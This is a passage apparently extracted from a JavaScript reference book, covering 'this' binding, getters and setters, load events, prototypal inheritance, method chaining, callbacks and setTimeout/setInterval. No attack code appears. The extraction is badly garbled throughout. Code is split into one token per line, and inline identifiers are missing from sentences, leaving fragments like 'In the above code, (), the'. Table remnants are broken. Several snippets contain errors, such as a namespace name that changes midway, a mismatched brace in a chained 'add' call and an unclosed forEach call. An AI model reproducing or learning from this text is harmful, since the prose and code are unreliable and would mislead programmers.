NavigationNs

=

NavigationNs

\|\|

{

}

;

NavigationNs.

active

=

{

}

;

NavigationNs.

pagination

=

{

}

;

NavigationNs.

redirection

=

{

}

;

*// The second level start here.*

Navigational.

pagination

.

jquery

=

**function**

(

)

;

Navigational.

pagination

.

angular

=

**function**

(

)

;

Navigational.

pagination

.

ember

=

**function**

(

)

;

# Chapter 24: Context (this)

## Section 24.1: this with simple objects

**var**

person

=

{

name

:

\'John Doe\'

,

age

:

42

,

gender

:

\'male\'

,

bio

:

**function**

(

)

{

console.

log

(

\'My name is \'

\+

**this**

.

name

)

;

}

}

;

person.

bio

(

)

;

*// logs \"My name is John Doe\"*

**var**

bio

=

person.

bio

;

bio

(

)

;

*// logs \"My name is undefined\"*

  -
  person.bio   makes use of the **context** (**this**). When the    person.bio
               function is called as                                
    

  -

In the above code, (), the
>
context gets passed automatically, and so it correctly logs \"My name
is John Doe\". When assigning the function to a variable though, it
loses its context.
>
In non-strict mode, the default context is the global object (window).
In strict mode it is **undefined**.

## Section 24.2: Saving this for use in nested functions / objects

One common pitfall is to try and use **this** in a nested function or
an object, where the context has been lost.

document.

getElementById

(

\'myAJAXButton\'

)

.

onclick

=

**function**

(

)

{

makeAJAXRequest

(

**function**

(

result

)

{

**if**

(

result

)

{

*// success*

**this**

.

className

=

\'success\'

;

}

}

)

}

Here the context (**this**) is lost in the inner callback function. To
correct this, you can save the value of **this** in a variable:

document.

getElementById

(

\'myAJAXButton\'

)

.

onclick

=

**function**

(

)

{

**var**

self

=

**this**

;

makeAJAXRequest

(

**function**

(

result

)

{

**if**

(

result

)

{

*// success*

self.

className

=

\'success\'

;

}

}

)

}

Version ≥ 6

ES6 introduced arrow functions which include lexical **this** binding.
The above example could be written like this:

document.

getElementById

(

\'myAJAXButton\'

)

.

onclick

=

**function**

(

)

{

makeAJAXRequest

(

result

=\>

{

**if**

(

result

)

{

*// success*

**this**

.

className

=

\'success\'

;

}

}

)

}

## Section 24.3: Binding function context

Version ≥ 5.1

Every function has a bind method, which will create a wrapped function
that will call it with the correct context. See here for more
information.

**var**

monitor

=

{

threshold

:

5

,

check

:

**function**

(

value

)

{

**if**

(

value

\>

**this**

.

threshold

)

{

**this**

.

display

(

\"Value is too high!\"

)

;

}

}

,

display

(

message

)

{

alert

(

message

)

;

}

}

;

monitor.

check

(

7

)

;

*// The value of \`this\` is implied by the method call syntax.*

**var**

badCheck

=

monitor.

check

;

badCheck

(

15

)

;

*// The value of \`this\` is window object and this.threshold is
undefined, so value \>*

*this.threshold is false*

**var**

check

=

monitor.

check

.

bind

(

monitor

)

;

check

(

15

)

;

*// This value of \`this\` was explicitly bound, the function works.*

**var**

check8

=

monitor.

check

.

bind

(

monitor

,

8

)

;

check8

(

)

;

*// We also bound the argument to \`8\` here. It can\'t be
re-specified.*

**Hard binding**

The object of

*hard binding*

is to \"hard\" link a reference to

**this**

.

Advantage: It\'s useful when you want to protect particular objects from
being lost.

Example:

**function**

Person

(

)

{

console.

log

(

\"I\'m \"

\+

**this**

.

name

)

;

}

**var**

person0

=

{

name

:

\"Stackoverflow\"

}

**var**

person1

=

{

name

:

\"John\"

}

;

**var**

person2

=

{

name

:

\"Doe\"

}

;

**var**

person3

=

{

name

:

\"Ala Eddine JEBALI\"

}

;

**var**

origin

=

Person

;

Person

=

**function**

(

)

{

origin.

call

(

person0

)

;

}

Person

(

)

;

*//outputs: I\'m Stackoverflow*

Person.

call

(

person1

)

;

*//outputs: I\'m Stackoverflow*

Person.

apply

(

person2

)

;

*//outputs: I\'m Stackoverflow*

Person.

call

(

person3

)

;

*//outputs: I\'m Stackoverflow*

So, as you can remark in the example above, whatever object you pass to

*Person*

, it\'ll always use

*person0*

*object*

:

**it\'s hard binded**

.

## Section 24.4: this in constructor functions

When using a function as a constructor, it has a special **this**
binding, which refers to the newly created object:

**function**

Cat

(

name

)

{

**this**

.

name

=

name

;

**this**

.

sound

=

\"Meow\"

;

}

**var**

cat

=

**new**

Cat

(

\"Tom\"

)

;

*// is a Cat object*

cat.

sound

;

*// Returns \"Meow\"*

**var**

cat2

=

Cat

(

\"Tom\"

)

;

*// is undefined \ function got executed in global context*

window.

name

;

*// \"Tom\"*

cat2.

name

;

*// error! cannot access property of undefined*

# Chapter 25: Setters and Getters

Setters and getters are object properties that call a function when
they are set/gotten.

## Section 25.1: Defining a Setter/Getter Using Object.defineProperty

**var**

setValue

;

**var**

obj

=

{

}

;

Object

.

defineProperty

(

obj

,

\"objProperty\"

,

{

**get**

:

**function**

(

)

{

**return**

\"a value\"

;

}

,

**set**

:

**function**

(

value

)

{

setValue

=

value

;

}

}

)

;

## Section 25.2: Defining an Setter/Getter in a Newly Created Object

JavaScript allows us to define getters and setters in the object
literal syntax. Here\'s an example:

**var**

date

=

{

year

:

\'2017\'

,

month

:

\'02\'

,

day

:

\'27\'

,

**get**

date

(

)

{

*// Get the date in YYYY-MM-DD format*

**return**

\`\$

{

**this**

.

year

}

\-

\$

{

**this**

.

month

}

\-

\$

{

**this**

.

day

}

\`

}

,

**set**

date

(

dateString

)

{

*// Set the date from a YYYY-MM-DD formatted string*

**var**

dateRegExp

=

*/(\\d{4})-(\\d{2})-(\\d{2})/*

;

*// Check that the string is correctly formatted*

**if**

(

dateRegExp.

test

(

dateString

)

)

{

**var**

parsedDate

=

dateRegExp.

exec

(

dateString

)

;

**this**

.

year

=

parsedDate

\[

1

\]

;

**this**

.

month

=

parsedDate

\[

2

\]

;

**this**

.

day

=

parsedDate

\[

3

\]

;

}

**else**

{

**throw**

**new**

Error

(

\'Date string must be in YYYY-MM-DD format\'

)

;

}

}

}

;

  
  date.date   property would return the  2017-02-27   . Setting date.date =
              value                                             \'2018-01-02
      

  

Accessing the would call

  
  date.year = \'2018\'                ,   date.month = \'01\'
    

  

the setter function, which would then parse the string and set , and

  
  date.day = \'02\'
  

  

. Trying to pass an incorrectly formatted string (such as \"hello\")
would throw an error.

## Section 25.3: Defining getters and setters in ES6 class

class

Person

{

constructor

(

firstname

,

lastname

)

{

**this**

.\_firstname

=

firstname

;

**this**

.\_lastname

=

lastname

;

}

**get**

firstname

(

)

{

**return**

**this**

.\_firstname

;

}

**set**

firstname

(

name

)

{

**this**

.\_firstname

=

name

;

}

**get**

lastname

(

)

{

**return**

**this**

.\_lastname

;

}

**set**

lastname

(

name

)

{

**this**

.\_lastname

=

name

;

}

}

**let**

person

=

**new**

Person

(

\'John\'

,

\'Doe\'

)

;

console.

log

(

person.

firstname

,

person.

lastname

)

;

*// John Doe*

person.

firstname

=

\'Foo\'

;

person.

lastname

=

\'Bar\'

;

console.

log

(

person.

firstname

,

person.

lastname

)

;

*// Foo Bar*

# Chapter 26: Events

## Section 26.1: Page, DOM and Browser loading

This is an example to explain the variations of load events.

1.  **onload event**

**\<**

**body**

onload

=

\"someFunction()\"

**\>**

**\<**

**img**

src

=

\"image1\"

**/\>**

**\<**

**img**

src

=

\"image2\"

**/\>**

**\<**

**/body**

**\>**

**\<**

**script**

**\>**

function someFunction() {

console.log(\"Hi! I am loaded\");

}

**\<**

**/script**

**\>**

In this case, the message is logged once *all the contents of the page
including the images and stylesheets(if any)* are completely loaded.

2.  **DOMContentLoaded event**

document.

addEventListener

(

\"DOMContentLoaded\"

,

**function**

(

event

)

{

console.

log

(

\"Hello! I am loaded\"

)

;

}

)

;

In the above code, the message is logged only after the DOM/document
is loaded (*ie:once the DOM is constructed*).

3.  **Self-invoking anonymous function**

(

**function**

(

)

{

console.

log

(

\"Hi I am an anonymous function! I am loaded\"

)

;

}

)

(

)

;

Here, the message gets logged as soon as the browser interprets the
anonymous function. It means, this function can get executed even
before the DOM is loaded.

# Chapter 27: Inheritance

## Section 27.1: Standard function prototype

Start by defining a Foo function that we\'ll use as a constructor.

**function**

Foo

(

)

{

}

  
  Foo.**prototype**
  

  

By editing , we can define properties and methods that will be shared
by all instances of Foo.

Foo.

**prototype**

.

bar

=

**function**

(

)

{

**return**

\'I am bar\'

;

}

;

We can then create an instance using the **new** keyword, and call the
method.

**var**

foo

=

**new**

Foo

(

)

;

console.

log

(

foo.

bar

(

)

)

;

*// logs \`I am bar\`*

## Section 27.2: Dierence between Object.key and Object.prototype.key

Unlike in languages like Python, static properties of the constructor
function are *not* inherited to instances. Instances only inherit from
their prototype, which inherits from the parent type\'s prototype.
Static properties are never inherited.

**function**

Foo

(

)

{

}

;

Foo.

style

=

\'bold\'

;

**var**

foo

=

**new**

Foo

(

)

;

console.

log

(

Foo.

style

)

;

*// \'bold\'*

console.

log

(

foo.

style

)

;

*// undefined*

Foo.

**prototype**

.

style

=

\'italic\'

;

console.

log

(

Foo.

style

)

;

*// \'bold\'*

console.

log

(

foo.

style

)

;

*// \'italic\'*

## Section 27.3: Prototypal inheritance

Suppose we have a plain object called **prototype**: **var**
**prototype** = { foo: \'foo\', bar: **function** () { **return**
**this**.foo; } };
>
Now we want another object called obj that inherits from
**prototype**, which is the same as saying that **prototype** is the
prototype of obj

**var**

obj

=

Object

.

create

(

**prototype**

)

;

Now all the properties and methods from **prototype** will be
available to obj

console.

log

(

obj.

foo

)

;

console.

log

(

obj.

bar

(

)

)

;

Console output

\"foo\"

\"foo\"

Prototypal inheritance is made through object references internally
and objects are completely mutable. This means any change you make on
a prototype will immediately affect every other object that prototype
is prototype of.

**prototype**

.

foo

=

\"bar\"

;

console.

log

(

obj.

foo

)

;

Console output

\"bar\"

  
  Object                     .    **prototype**
    

  

is the prototype of every object, so it\'s strongly recommended you
don\'t mess with it, especially

if you use any third party library, but we can play with it a little
bit.

Object

.

**prototype**

.

breakingLibraries

=

\'foo\'

;

console.

log

(

obj.

breakingLibraries

)

;

console.

log

(

**prototype**

.

breakingLibraries

)

;

Console output

\"foo\"

\"foo\"

**Fun fact** I\'ve used the browser console to make these examples and
broken this page by adding that breakingLibraries property.

## Section 27.4: Pseudo-classical inheritance

It\'s an emulation of classical inheritance using prototypical
inheritance which shows how powerful prototypes are. It was made to
make the language more attractive to programmers coming from other
languages.

Version \< 6

**IMPORTANT NOTE**: Since ES6 it doesn\'t make sense to use
pseudo-classical inheritance since the language simulates conventional
classes. If you\'re not using ES6, [you
should](http://www.2ality.com/2015/08/getting-started-es6.html). If
you still want to use the classical inheritance pattern and you\'re in
a ECMAScript 5 or lower environment, then pseudo-classical is your
best bet.
>
A \"class\" is just a function that is made to be called with the
**new** operand and it\'s used as a constructor.

**function**

Foo

(

id

,

name

)

{

**this**

.

id

=

id

;

**this**

.

name

=

name

;

}

**var**

foo

=

**new**

Foo

(

1

,

\'foo\'

)

;

console.

log

(

foo.

id

)

;

Console output

1

foo is an instance of Foo. The JavaScript coding convention says if a
function begins with a capital letter case it can be called as a
constructor (with the **new** operand).
>
To add properties or methods to the \"class\" you have to add them to
its prototype, which can be found in the **prototype** property of the
constructor.

Foo.

**prototype**

.

bar

=

\'bar\'

;

console.

log

(

foo.

bar

)

;

Console output

bar

  
  Foo.**prototype**
  

  

In fact what Foo is doing as a \"constructor\" is just creating
objects with as it\'s prototype.
>
You can find a reference to its constructor on every object

console.

log

(

foo.

constructor

)

;

function Foo(id, name) { \...

console.

log

(

{

}

.

constructor

)

;

function Object() { \[native code\] }

And also check if an object is an instance of a given class with the
**instanceof** operator

console.

log

(

foo

**instanceof**

Foo

)

;

true

console.

log

(

foo

**instanceof**

Object

)

;

true

## Section 27.5: Setting an Object\'s prototype

Version ≥ 5

  
  Object                           .     create
  - - -

  

With ES5+, the function can be used to create an Object with any other
Object as it\'s prototype.

**const**

anyObj

=

{

hello

(

)

{

console.

log

(

\`

**this**

.

foo

is \$

{

**this**

.

foo

}

\`

)

;

}

,

}

;

**let**

objWithProto

=

Object

.

create

(

anyObj

)

;

objWithProto.

foo

=

\'bar\'

;

objWithProto.

hello

(

)

;

*// \"this.foo is bar\"*

  
  Object                     .    **prototype**
    

  

To explicitly create an Object without a prototype, use **null** as
the prototype. This means the Object will not inherit from either and
is useful for Objects used for existence checking dictionaries, e.g.

**let**

objInheritingObject

=

{

}

;

**let**

objInheritingNull

=

Object

.

create

(

**null**

)

;

\'toString\'

**in**

objInheritingObject

;

*// true*

\'toString\'

**in**

objInheritingNull

;

*// false*

Version

≥

6

  -
  Object               .   setPrototypeOf
    

  -

From ES6, the prototype of an existing Object can be changed using ,
for example

**let**

obj

=

Object

.

create

(

{

foo

:

\'foo\'

}

)

;

obj

=

Object

.

setPrototypeOf

(

obj

,

{

bar

:

\'bar\'

}

)

;

obj.

foo

;

*// undefined*

obj.

bar

;

*// \"bar\"*

This can be done almost anywhere, including on a **this** object or in
a constructor.
>
**Note:** This process is very slow in current browsers and should be
used sparingly, try to create the Object with the desired prototype
instead.

Version \< 5

Before ES5, the only way to create an Object with a manually defined
prototype was to construct it with **new**, for example

**var**

proto

=

{

fizz

:

\'buzz\'

}

;

**function**

ConstructMyObj

(

)

{

}

ConstructMyObj.

**prototype**

=

proto

;

**var**

objWithProto

=

**new**

ConstructMyObj

(

)

;

objWithProto.

fizz

;

*// \"buzz\"*

  
  Object                           .     create
  - - -

  

This behaviour is close enough to that it is possible to write a
polyfill.

# Chapter 28: Method Chaining

## Section 28.1: Chainable object design and chaining

Chaining and Chainable is a design methodology used to design object
behaviors so that calls to object functions return references to self,
or another object, providing access to additional function calls
allowing the calling statement to chain together many calls without
the need to reference the variable holding the object/s.

  
  **return** **this**
  

  

Objects that can be chained are said to be chainable. If you call an
object chainable, you should ensure that all returned objects /
primitives are of the correct type. It only takes one time for your
chainable object to not return the correct reference (easy to forget
to add ) and the person using your API will lose trust and avoid
chaining. Chainable objects should be all or nothing (not a chainable
object even if parts are). An object should not be called chainable if
only some of its functions are.

**Object designed to be chainable**

**function**

Vec

(

x

=

0

,

y

=

0

)

{

**this**

.

x

=

x

;

**this**

.

y

=

y

;

*// the new keyword implicitly implies the return type*

*// as this and thus is chainable by default.*

}

Vec.

**prototype**

=

{

add

:

**function**

(

vec

)

{

**this**

.

x

+=

vec.

x

;

**this**

.

y

+=

vec.

y

;

**return**

**this**

;

*// return reference to self to allow chaining of function calls*

}

,

scale

:

**function**

(

val

)

{

**this**

.

x

\*=

val

;

**this**

.

y

\*=

val

;

**return**

**this**

;

*// return reference to self to allow chaining of function calls*

}

,

log

:

**function**

(

val

)

{

console.

log

(

**this**

.

x

\+

\' : \'

\+

**this**

.

y

)

;

**return**

**this**

;

}

,

clone

:

**function**

(

)

{

**return**

**new**

Vec

(

**this**

.

x

,

**this**

.

y

)

;

}

}

**Chaining example**

**var**

vec

=

**new**

Vec

(

)

;

vec.

add

(

{

x

:

10

,

y

:

10

}

)

.

add

(

{

x

:

10

,

y

:

10

}

)

.

log

(

)

*// console output \"20 : 20\"*

.

add

(

{

x

:

10

,

y

:

10

}

)

.

scale

(

1

/

30

)

.

log

(

)

*// console output \"1 : 1\"*

.

clone

(

)

*// returns a new instance of the object*

.

scale

(

2

)

*// from which you can continue chaining*

.

log

(

)

**Don\'t create ambiguity in the return type**

  
  clone
  

  

  
  toString
  

  

Not all function calls return a useful chainable type, nor do they
always return a reference to self. This is where common sense use of
naming is important. In the above example the function call .() is
unambiguous. Other examples are .() implies a string is returned.
>
An example of an ambiguous function name in a chainable object.

*// line object represents a line*

line.

rotate

(

1

)

.

vec

(

)

;

*// ambiguous you don\'t need to be looking up docs while writing.*

line.

rotate

(

1

)

.

asVec

(

)

*// unambiguous implies the return type is the line as a vec (vector)*

.

add

(

{

x

:

10

,

y

:

10

)

*// toVec is just as good as long as the programmer can use the naming*

*// to infer the return type*

**Syntax convention**
>
There is no formal usage syntax when chaining. The convention is to
either chain the calls on a single line if short or to chain on the
new line indented one tab from the referenced object with the dot on
the new line. Use of the semicolon is optional but does help by
clearly denoting the end of the chain.
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  

**A bad syntax**
>
vec *// new line before the first function call*
>
.scale() *// can make it unclear what the intention is*
>
.log();
>
vec. *// the dot on the end of the line* scale(2). *// is very
difficult to see in a mass of code* scale(1/2); *// and will likely
frustrate as can easily be missed* *// when trying to locate bugs*
>
**Left hand side of assignment**
>
When you assign the results of a chain the last returning call or
object reference is assigned.
>
**var** vec2 = vec.scale(2) .add(x:1,y:10)
>
.clone(); *// the last returned result is assigned*
>
*// vec2 is a clone of vec after the scale and add*
>
In the above example vec2 is assigned the value returned from the last
call in the chain. In this case, that would be a copy of vec after the
scale and add.
>
**Summary**
>
The advantage of changing is clearer more maintainable code. Some
people prefer it and will make chainable a requirement when selecting
an API. There is also a performance benefit as it allows you to avoid
having to create variables to hold interim results. With the last word
being that chainable objects can be used in a conventional way as well
so you don\'t enforce chaining by making an object chainable.

## Section 28.2: Method Chaining

Method chaining is a programming strategy that simplifies your code
and beautifies it. Method chaining is done by ensuring that each
method on an object returns the entire object, instead of returning a
single element of that object. For example:

**function**

Door

(

)

{

**this**

.

height

=

\'\'

;

**this**

.

width

=

\'\'

;

**this**

.

status

=

\'closed\'

;

}

Door.

**prototype**

.

open

=

**function**

(

)

{

**this**

.

status

=

\'opened\'

;

**return**

**this**

;

}

Door.

**prototype**

.

close

=

**function**

(

)

{

**this**

.

status

=

\'closed\'

;

**return**

**this**

;

}

Door.

**prototype**

.

setParams

=

**function**

(

width

,

height

)

{

**this**

.

width

=

width

;

**this**

.

height

=

height

;

**return**

**this**

;

}

Door.

**prototype**

.

doorStatus

=

**function**

(

)

{

console.

log

(

\'The\'

,

**this**

.

width

,

\'x\'

,

**this**

.

height

,

\'Door is\'

,

**this**

.

status

)

;

**return**

**this**

;

}

**var**

smallDoor

=

**new**

Door

(

)

;

smallDoor.

setParams

(

20

,

100

)

.

open

(

)

.

doorStatus

(

)

.

close

(

)

.

doorStatus

(

)

;

  
  Door.**prototype**
  

  

Note that each method in returns **this**, which refers to the entire
instance of that Door object.

# Chapter 29: Callbacks

## Section 29.1: Simple Callback Usage Examples

Callbacks offer a way to extend the functionality of a function (or
method) ***without changing*** its code. This approach is often used
in modules (libraries / plugins), the code of which is not supposed to
be changed.
>
Suppose we have written the following function, calculating the sum of
a given array of values:

**function**

foo

(

array

)

{

**var**

sum

=

0

;

**for**

(

**var**

i

=

0

;

i

\<

array.

length

;

i

++

)

{

sum

+=

array

\[

i

\]

;

}

**return**

sum

;

}

  
  alert
  

  

Now suppose that we want to do something with each value of the array,
e.g. display it using (). We could make the appropriate changes in the
code of foo, like this:

**function**

foo

(

array

)

{

**var**

sum

=

0

;

**for**

(

**var**

i

=

0

;

i

\<

array.

length

;

i

++

)

{

alert

(

array

\[

i

\]

)

;

sum

+=

array

\[

i

\]

;

}

**return**

sum

;

}

  
  console.log                    instead of                 alert
  -  -

  

But what if we decide to use ()? Obviously changing the code of foo,
whenever we
>
decide to do something else with each value, is not a good idea. It is
much better to have the option to change our mind without changing the
code of foo. That\'s exactly the use case for callbacks. We only have
to slightly change foo\'s signature and body:

**function**

foo

(

array

,

callback

)

{

**var**

sum

=

0

;

**for**

(

**var**

i

=

0

;

i

\<

array.

length

;

i

++

)

{

callback

(

array

\[

i

\]

)

;

sum

+=

array

\[

i

\]

;

}

**return**

sum

;

}

And now we are able to change the behaviour of foo just by changing
its parameters:

**var**

array

=

\[

\]

;

foo

(

array

,

alert

)

;

foo

(

array

,

**function**

(

x

)

{

console.

log

(

x

)

;

}

)

;

**Examples with Asynchronous Functions**

  
  \$.getJSON
  

  

In jQuery, the () method to fetch JSON data is asynchronous.
Therefore, passing code in a callback makes sure that the code is
called *after* the JSON is fetched.

  
  \$.getJSON
  

  

() syntax:

\$.

getJSON

(

url

,

dataObject

,

successCallback

)

;

  
  \$.getJSON
  

  

Example of () code:

\$.

getJSON

(

\"foo.json\"

,

{

}

,

**function**

(

data

)

{

*// data handling code*

}

)

;

  
  \$.getJSON
  

  

The following would *not* work, because the data-handling code would
likely be called *before* the data is actually received, because the
function takes an unspecified length of time and does not hold up the
call stack as it waits for the JSON.

\$.

getJSON

(

\"foo.json\"

,

{

}

)

;

*// data handling code*

  
  animate
  

  

Another example of an asynchronous function is jQuery\'s () function.
Because it takes a specified time to run the animation, sometimes it
is desirable to run some code directly following the animation.

  
  animate
  

  

.() syntax:

jQueryElement.

animate

(

properties

,

duration

,

callback

)

;

For example, to create a fading-out animation after which the element
completely disappears, the following code can be run. Note the use of
the callback.

elem.

animate

(

{

opacity

:

0

}

,

5000

,

**function**

(

)

{

elem.

hide

(

)

;

}

)

;

This allows the element to be hidden right after the function has
finished execution. This differs from:

elem.

animate

(

{

opacity

:

0

}

,

5000

)

;

elem.

hide

(

)

;

  
  animate
  

  

because the latter does not wait for () (an asynchronous function) to
complete, and therefore the element is hidden right away, producing an
undesirable effect.

## Section 29.2: Continuation (synchronous and asynchronous)

Callbacks can be used to provide code to be executed after a method
has completed:

*/\*\**

*\* \@arg {Function} then continuation callback*

*\*/*

**function**

doSomething

(

then

)

{

console.

log

(

\'Doing something\'

)

;

then

(

)

;

}

*// Do something, then execute callback to log \'done\'*

doSomething

(

**function**

(

)

{

console.

log

(

\'Done\'

)

;

}

)

;

console.

log

(

\'Doing something else\'

)

;

*// Outputs:*

*// \"Doing something\"*

*// \"Done\"*

*// \"Doing something else\"*

  
  doSomething   () method above executes synchronously with the        doSomething
                callback - execution blocks until                      
  -  -

  

The () returns, ensuring that the callback is executed before the
interpreter moves on.
>
Callbacks can also be used to execute code asynchronously:

doSomethingAsync

(

then

)

{

setTimeout

(

then

,

1000

)

;

console.

log

(

\'Doing something asynchronously\'

)

;

}

doSomethingAsync

(

**function**

(

)

{

console.

log

(

\'Done\'

)

;

}

)

;

console.

log

(

\'Doing something else\'

)

;

*// Outputs:*

*// \"Doing something asynchronously\"*

*// \"Doing something else\"*

*// \"Done\"*

  
  doSomething
  

  

The then callbacks are considered continuations of the () methods.
Providing a callback as the last instruction in a function is called a
[tail-call](https://en.wikipedia.org/wiki/Tail_call), which is
[optimized by ES2015
interpreters](http://www.2ality.com/2015/06/tail-call-optimization.html).

## Section 29.3: What is a callback?

This is a normal function call:

console.

log

(

\"Hello World!\"

)

;

When you call a normal function, it does its job and then returns
control back to the caller.
>
However, sometimes a function needs to return control back to the
caller in order to do its job:

\[

1

,

2

,

3

\]

.

map

(

**function**

double

(

x

)

{

**return**

2

\*

x

;

}

)

;

In the above example, the function double is a callback for the
function map because:

1.  The function double is given to the function map by the caller.

2.  The function map needs to call the function double zero or more
    times in order to do its job.

Thus, the function map is essentially returning control back to the
caller every time it calls the function double. Hence, the name
"callback".
>
Functions may accept more than one callback:

promise.

then

(

**function**

onFulfilled

(

value

)

{

console.

log

(

\"Fulfilled with value \"

\+

value

)

;

}

,

**function**

onRejected

(

reason

)

{

console.

log

(

\"Rejected with reason \"

\+

reason

)

;

}

)

;

Here then function then accepts two callback functions, onFulfilled
and onRejected. Furthermore, only one of these two callback functions
is actually called.
>
What\'s more interesting is that the function then returns before
either of the callbacks are called. Hence, a callback function may be
called even after the original function has returned.

## Section 29.4: Callbacks and \`this\`

Often when using a callback you want access to a specific context.

**function**

SomeClass

(

msg

,

elem

)

{

**this**

.

msg

=

msg

;

elem.

addEventListener

(

\'click\'

,

**function**

(

)

{

console.

log

(

**this**

.

msg

)

;

*// \<= will fail because \"this\" is undefined*

}

)

;

}

**var**

s

=

**new**

SomeClass

(

\"hello\"

,

someElement

)

;

**Solutions** Use bind
>
bind effectively generates a new function that sets **this** to
whatever was passed to bind then calls the original function.

**function**

SomeClass

(

msg

,

elem

)

{

**this**

.

msg

=

msg

;

elem.

addEventListener

(

\'click\'

,

**function**

(

)

{

console.

log

(

**this**

.

msg

)

;

}

.

bind

(

**this**

)

)

;

*// \<=- bind the function to \`this\`*

}

Use arrow functions

Arrow functions automatically bind the current **this** context.

**function**

SomeClass

(

msg

,

elem

)

{

**this**

.

msg

=

msg

;

elem.

addEventListener

(

\'click\'

,

(

)

=\>

{

*// \<=- arrow function binds \`this\`*

console.

log

(

**this**

.

msg

)

;

}

)

;

}

Often you\'d like to call a member function, ideally passing any
arguments that were passed to the event on to the function.
>
**Solutions:**

Use bind

**function**

SomeClass

(

msg

,

elem

)

{
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch29-5">Section 29.5: Callback using Arrow function</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Using arrow function as callback function can reduce lines of
code.**
>
The default syntax for arrow function is

(

)

=\>

{

}

This can be used as callbacks
>
For example if we want to print all elements in an array \[1,2,3,4,5\]
without arrow function, the code will look like this

\[

1

,

2

,

3

,

4

,

5

\]

.

forEach

(

**function**

(

x

)

{

console.

log

(

x

)

;

}

With arrow function, it can be reduced to

\[

1

,

2

,

3

,

4

,

5

\]

.

forEach

(

x

=\>

console.

log

(

x

)

)

;

  
  **function**   (x){   console.log    (x)} is reduced to x   =\>console.log
     - 

  

Here the callback function (x)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch29-6">Section 29.6: Error handling and control-flow branching</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Callbacks are often used to provide error handling. This is a form of
control flow branching, where some instructions are executed only when
an error occurs:

**const**

expected

=

**true**

;

**function**

compare

(

actual

,

success

,

failure

)

{

**if**

(

actual

===

expected

)

{

success

(

)

;

}

**else**

{

failure

(

)

;

}

}

**function**

onSuccess

(

)

{

console.

log

(

\'Value was expected\'

)

;

}

**function**

onFailure

(

)

{

console.

log

(

\'Value was unexpected/exceptional\'

)

;

}

compare

(

**true**

,

onSuccess

,

onFailure

)

;

compare

(

**false**

,

onSuccess

,

onFailure

)

;

*// Outputs:*

*// \"Value was expected\"*

*// \"Value was unexpected/exceptional\"*

  
  compare
  

  

Code execution in () above has two possible branches: success when the
expected and actual values are the same, and error when they are
different. This is especially useful when control flow should branch
after some asynchronous instruction:

**function**

compareAsync

(

actual

,

success

,

failure

)

{

setTimeout

(

**function**

(

)

{

compare

(

actual

,

success

,

failure

)

}

,

1000

)

;

}

compareAsync

(

**true**

,

onSuccess

,

onFailure

)

;

compareAsync

(

**false**

,

onSuccess

,

onFailure

)

;

console.

log

(

\'Doing something else\'

)

;

*// Outputs:*

*// \"Doing something else\"*

*// \"Value was expected\"*

*// \"Value was unexpected/exceptional\"*

  
  compare
  

  

It should be noted, multiple callbacks do not have to be mutually
exclusive  both methods could be called. Similarly, the () could be
written with callbacks that are optional (by using a
[noop](https://en.wikipedia.org/wiki/NOP) as the default value - see
[Null Object
pattern](https://en.wikipedia.org/wiki/Null_Object_pattern)).

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch30">Chapter 30: Intervals and Timeouts</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch30-1">Section 30.1: Recursive setTimeout</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To repeat a function indefinitely, setTimeout can be called
recursively:

**function**

repeatingFunc

(

)

{

console.

log

(

\"It\'s been 5 seconds. Execute the function again.\"

)

;

setTimeout

(

repeatingFunc

,

5000

)

;

}

setTimeout

(

repeatingFunc

,

5000

)

;

Unlike setInterval, this ensures that the function will execute even
if the function\'s running time is longer than the specified delay.
However, it does not guarantee a regular interval between function
executions. This behaviour also varies because an exception before the
recursive call to setTimeout will prevent it from repeating again,
while setInterval would repeat indefinitely regardless of exceptions.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch30-2">Section 30.2: Intervals</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**function**

waitFunc

(

)

{

console.

log

(

\"This will be logged every 5 seconds\"

)

;

}

window.

setInterval

(

waitFunc

,

5000

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch30-3">Section 30.3: Intervals</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Standard**
>
You don\'t need to create the variable, but it\'s a good practice as
you can use that variable with clearInterval to stop the currently
running interval.
>
**var** int = setInterval(\"doSomething()\", 5000 ); */\* 5 seconds
